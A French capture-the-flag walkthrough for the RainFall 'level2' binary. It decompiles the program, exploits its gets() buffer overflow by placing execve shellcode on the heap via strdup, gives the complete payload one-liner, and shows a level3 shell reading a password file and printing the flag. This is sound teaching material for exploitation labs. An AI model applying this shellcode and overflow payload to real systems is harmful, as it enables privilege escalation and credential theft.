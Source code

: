 ## `Level2`

## Introduction

Nous avons un exécutable `level2` avec les droits suivants :

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Lorsque nous l'exécutons, il semble doubler l'entrée standard comme un effet miroir.

```bash
level2@RainFall:~$ ./level2 
ls
ls
```

Nous allons analyser et décompiler l'exécutable pour comprendre son comportement et identifier une éventuelle vulnérabilité.

## Analyse et Décompilation

## Code décomplié 

```c
void    p(void)
{
    int     memory;
    char    buffer[76];

    fflush(stdout);

    gets(buffer);

    if (memory & 0xb0000000)
    {
        printf("(%p)\n", &memory);
        exit(1);
    }

    puts(buffer);
    strdup(buffer);
}

int     main(void)
{
    p();
    return (0);
}
```

### Fonction `main`

Après décompilation, nous observons que la fonction `main` appelle la fonction `p` :

```assembly
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

### Fonction `p`

La fonction `p` contient une vulnérabilité due à l'utilisation de `gets`, ce qui permet un débordement de tampon. Voici le désassemblage de la fonction `p` :

```assembly
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

### Vérification d'adresse

Il y a une vérification sur les adresses allant de `0xb0000000` à `0xbfffffff`, empêchant ainsi l'utilisation de la pile pour stocker le shellcode. 

## Utilisation du tas (heap)

Nous pouvons utiliser le tas (heap) pour stocker notre shellcode. La fonction `strdup` utilise `malloc`, qui alloue la mémoire dans le tas. Nous voyons que `malloc` retourne toujours l'adresse `0x804a008` :

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                   = 0xbffff70c
puts("")                                                        = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

Nous pouvons essayer de copier un shellcode dans le tas et utiliser l'adresse allouée par `malloc` comme adresse de retour.

### Shellcode

Nous le trouvons sur ce site : https://shell-storm.org/shellcode/files/shellcode-575.html

Nous utiliserons le shellcode suivant de 21 octets :

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

## Construction du payload

Notre shellcode fait 21 octets de long. Nous devons remplir avec des données arbitraires jusqu'à 80 octets, puis les 4 derniers octets pour l'adresse de retour.

### Payload final

Le buffer d'attaque final sera structuré comme suit :

- Shellcode : 21 octets
- Remplissage de données arbitraires : 59 octets
- Adresse de retour : 4 octets

```bash
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat -) | ./level2
```


## Accès au Shell

Un shell est accessible ensuite :

```bash
level2@RainFall:~$ pwd
/home/user/level2
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
level2@RainFall:~$ whoami
level3
level2@RainFall:~$ cat /home/user/level2/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Conclusion

Nous avons réussi à exploiter la vulnérabilité de débordement de tampon dans `level2` en utilisant le tas (heap) pour stocker notre shellcode et en écrasant l

'adresse de retour pour pointer vers cette région. Cela nous a permis d'exécuter le shellcode et d'obtenir un shell avec les privilèges de `level3`, nous permettant de lire le flag pour le niveau suivant.

Level2 passé avec succès !
